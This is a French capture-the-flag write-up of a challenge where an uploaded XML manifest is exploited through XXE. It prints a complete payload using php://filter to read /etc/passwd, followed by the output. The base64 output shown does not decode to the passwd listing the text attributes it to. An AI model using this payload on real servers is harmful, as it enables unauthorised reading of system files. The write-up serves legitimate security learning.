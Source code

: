 On rejoue l'exemple. L'archive et son contenu sont bien traités par le système, car la page de retour affiche le contenu du Manifest.

![exemple de l'upload](https://github.com/Sacriyana/CTF-Write-Up/raw/master/ndh16_wonkachallenge/flag1/upload_example.png)

Un fichier XML qui est traité par un système, tout indique une XXE. On aurait aussi pu penser à une XSS sur la plateforme de validation de l'administrateur.

### Exploitation de la XXE

On sort les payloads XXE de leur boite. Pourquoi pas de ne pas tenter de lire le ficher /etc/passwd du serveur.
L'extension de la page d'upload étant `.php`, on n'oublie pas le php filter qui va nous permettre de récupérer le contenu du fichier ciblé quelque soit son formatage.

Payload: 

`php://filter/convert.base64-encode/resource=/etc/passwd`

Voici le MANIFEST.xml avec la XXE :


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE entreprise [  
<!ELEMENT entreprise ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
<root>
	<entreprise>&xxe;</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>xxx</adresseBTC>
</root>
```

Le résultat est immédiat :

```
PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPHJvb3Q+Cgk8ZW50cmVwcmlzZT5QUkFNQUZJTDwvZW50cmVwcmlzZT4KCTxwcml4QlRDPjEyIEJUQzwvcHJpeEJUQz4KCTxhZHJlc3NlQlRDPjNKRFNZeERWWXF0aDFVaUdSZlVmc2UzREo3SDNGSDhlQzE8L2FkcmVzc2VCVEM+CgoJPGRvbWFpbj5QUkFNQUZJTDwvZG9tYWluPgoJPGFkbWluPkFkbWluaXN0cmF0b3I8L2FkbWluPgoJPHNpZD5TLTEtNS0yMS0xNTQxODE3MjE5LTMxOTUxMDA0MDQtNDA4ODgzMjg2Njwvc2lkPgoJPGtyYnRndD40ZDVlMDYxNzcyMGVlNWVhZjIxODMwZmQ4ZDhmNzVlYTwva3JidGd0Pgo8L3Jvb3Q+Cgo=
```

Et voilà le passwd :
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
```